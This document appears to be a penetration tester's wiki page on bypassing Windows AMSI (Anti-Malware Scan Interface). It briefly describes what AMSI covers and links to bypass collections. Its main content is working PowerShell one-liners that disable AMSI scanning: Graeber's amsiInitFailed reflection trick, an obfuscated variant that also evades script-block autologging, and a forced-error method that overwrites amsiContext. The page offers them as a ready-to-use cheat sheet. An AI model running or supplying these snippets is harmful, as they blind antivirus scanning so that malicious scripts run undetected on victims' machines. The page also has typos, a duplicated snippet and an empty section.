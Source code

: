 # AMSI Bypassing

## Introduction

For basic information about [[ASMI]], but for actual [[AMSI-Exploitation]] contains a list of code snippets to exploit this article will be here just as a hub and overview of techniques - possibly restructure in the future. Anti-Malware Scan Interface is a general scripting language security feature that will allow any applications or services to integrate into antimalware products. It scan payloads and script before execution inside of the runtime.

The AMSI feature is integrated into these components of Windows 10.

-   User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
-   PowerShell (scripts, interactive use, and dynamic code evaluation)
-   Windows Script Host (wscript.exe and cscript.exe)
-   JavaScript and VBScript
-   Office VBA macros

AMSI Architecture
![](amsi7archi.jpg)

AMSI is instrumented in both System.Management.Automation.dll and within the CLR itself. When inside the CLR, it is assumed that Defender is already being instrumented; this means AMSI will only be called when loaded from memory.

Bypassing 

## Bypasses

One enumeration method for bypassing is compare target versions to bypass with [InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master), which is a GitHub repository of PowerShell with security features removed. [S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  is represented here with either code or  local links to big code blocks or Cheatsheats with function calls from the framework.

[[Nishang-Helpsheet]] - `Invoke-Amsibypass` will use  publicly known methods to bypass/avoid AMSI.


#### Patching asmi.dll

The bypasses that will identify DLL locations and modify memory permissions to return undetected AMSI response values.

Patching the  asmi.dll - [[AMSI-ScanBuffer-Patch]] - Egghunter with blog post: [https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)

ScanBuffer patch - [[AMSI-Buffer-Patch-In-memory]]
ScanBuffer bypass - [Rasta-Mouse](https://github.com/rasta-mouse/AmsiScanBufferBypass)

#### Forcing errors

Force an error
```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

#### Graeber Reflection
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) utilizes Powershell to set the response value of ASMI to  `$null`

Matt Graebers Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Matt Graebers Reflection method with WMF5 autologging bypass
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

Matt Graebers second Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


#### PowerShell downgrading





## References


[pentestlaboratories article](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation - How AMSI Helps](https://learn.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)
[ASMI Result Documentation](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master)
[S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)